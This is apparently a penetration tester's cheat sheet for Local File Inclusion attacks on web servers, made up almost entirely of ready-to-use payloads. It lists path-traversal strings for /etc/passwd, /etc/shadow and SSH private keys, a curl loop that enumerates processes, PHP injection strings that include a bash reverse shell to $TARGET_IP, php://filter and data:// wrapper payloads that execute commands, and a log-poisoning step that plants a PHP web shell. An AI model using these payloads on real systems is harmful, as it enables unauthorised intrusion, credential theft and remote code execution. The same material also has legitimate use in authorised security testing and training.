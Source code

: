 LFI Common Files
---
#LFI #files #RFI

```lists
../../../../../../../etc/passwd
../../../../../../../etc/passwd?
../../../../../../../etc/passwd%00
../../../../../../../etc/passwd^^
.[\\./.\\./.\\./.\\./etc/passwd](file://./etc/passwd)
....................//etc/passwd
....//....//....//....//....//....//....//....//....//....//....//..../etc/passwd
..///..////etc/passwd
..[\\..\\..\\..\\..\\..\\/etc/passwd](file://../../../../../etc/passwd)
..[\\\..\\\..\\\..\\\..\\\/etc/passwd](file://../../../../etc/passwd)
.\/\.\.\/\.\/etc/passwd
../../../../../../../proc/self/cmdline
../../../../../../../proc/self/environ
/etc/passwd
/etc/hosts
/proc/self/environ
/proc/version
/proc/cmdline
/proc/self/cmdline
/etc/issue
/var/www/.htaccess
/var/www/.htpasswd
/etc/shadow
/etc/group
/etc/motd
/etc/mysql/my.cnf
/etc/apache2/apache2.conf
/etc/apache2/conf/httpd.conf
../../../../../../home/USERNAME/.ssh/id_rsa
/var/log/auth.log #log poisoning via SSH
/etc/apache2/sites-available/000-default.conf
/windows/win.ini
```

Windows:

```text
c:\apache\logs\access.log
c:\apache\logs\error.log
C:\inetpub\wwwroot\
```

Word / file lists:

```lists
/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt
/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
```

Do 1-1000 to enum processes:
---
#enum #enumeration #process #process-enumeratio 

```shell
for i in $(seq 900 1000); do curl $TARGET_URL/?file=../../../../proc/$i/cmdline -o -; echo " PID => $i"; done
```

Bypass simple filters and other bypasses:
---
#lfi #filter #bypass

```php
' and die(show_source('/etc/passwd')) or '
' and die(system("/bin/bash -c 'bash -i >& /dev/tcp/$TARGET_IP/4444 0>&1'")) or ' #fo rev shell
php://fd/3php://fd/3
php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd
data:text/plain,<?php phpinfo(); ?>data:text/plain,<?php phpinfo(); ?>
```


```bash
#execute id command
curl -s --path-as-is "$TARGET_URL/index.php?page=data://text/plain,<?php%20echo%20system('id');?>"
#read the contents of index.php
curl -s --path-as-is "$TARGET_URL/index.php?page=php://filter/convert.base64-encode/resource=../../../../../../var/www/html/index.php"
```

Log poisoning:
```burp-suite
User-Agent: CHROME <?php echo system($_GET['exec']);?>
```
Then execute the poisoned log file by including it:
```bash
#linux
curl -s --path-as-is $TARGET_URL/../../../../../../../../../var/log/apache2/access.log&exec=ls
#windows using xampp
curl -s --path-as-is $TARGET_URL/../../../../../../../../../xampp/apache/logs/access.log&exec=dir
```


